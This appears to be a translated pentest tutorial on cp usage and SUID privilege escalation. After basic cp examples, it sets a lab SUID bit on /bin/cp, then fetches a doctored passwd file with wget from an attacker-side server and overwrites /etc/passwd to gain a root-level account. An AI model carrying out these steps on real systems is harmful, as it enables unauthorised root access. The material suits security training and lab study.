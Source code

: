 ## cp Privilege Escalation

`cp --help`

### Copy single file to the destination

`cp source.txt destination.txt`

### Copy multiple files to a directory

`cp a b c d.txt demo/`

### Copy source directory to the destination

`cp -R dir1 dir2`

### Interactive prompt

`cp -i demo.txt author`

### Backup a file

`cp -b demo.txt demo_bp.txt`

### Copying using  * wildcard

`cp *.txt folder`

### Force copy

`cp -f test1.txt test2.txt`

### SUID Lab setups for Privilege Escalation [^1]

```bash
which cp
chmod u+s /bin/cp
ls -la /bin/cp
```

### Exploiting SUID

`ssh test@xxx.xxx.x.xx`

`find / -perm -u=s -type f 2>/dev/null` [^2]

`openssl passwd -1 -salt ignite pass123` [^3]

`python -m SimpleHTTPServer`

```bash
# 在本地主机上开启8000端口后，在目标主机上使用 `wget` 下载添加新用户后的 `passwd` 文件
cd /tmp
wget http://192.168.0.16:8000/passwd
```

```bash
# 使用 `cp` 命令，将源文件的内容复制到目标文件
cp passwd /etc/passwd
tail /etc/passwd
```

```bash
su chiya
password: pass123
id
```



[原文](https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/)

---

[^1]: `SUID`：`Set User ID`是一种权限类型，允许用户使用指定用户的权限执行文件。假设我们以非root用户身份访问受害者的计算机，并且我们发现了`suid`位启用的二进制文件，那么这些文件/程序/命令可以使用root权限运行
[^2]: 使用 `find` 命令找出具有 SUID 权限的二进制文件
[^3]: `cp` 命令具有 SUID权限，因此我们尝试通过在 `/etc/passwd`文件中注入新用户来升级到root权限
